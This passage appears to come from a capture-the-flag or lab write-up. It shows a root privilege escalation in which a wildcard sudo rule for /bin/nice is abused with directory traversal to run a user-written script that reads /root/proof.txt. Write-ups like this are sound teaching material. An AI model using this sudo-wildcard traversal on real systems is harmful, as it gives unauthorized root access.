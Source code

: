 Due to the wildcard (`*`) used in the command, we can use the directory traversal pattern (`../`) and execute a script of our choice.

{% code overflow="wrap" %}
```bash
webadmin@serv:~$ echo "cat /root/proof.txt" > root_flag.sh
webadmin@serv:~$ sudo /bin/nice /notes/../../home/webadmin/root_flag.sh
86f<REDACTED>f1e
```
{% endcode %}

[^1]: Local File Inclusion

[^2]: Remote Code Execution

[^3]: Local File Inclusion

[^4]: Remote Code Execution

[^5]: Living off the Land

[^6]: Local File Inclusion
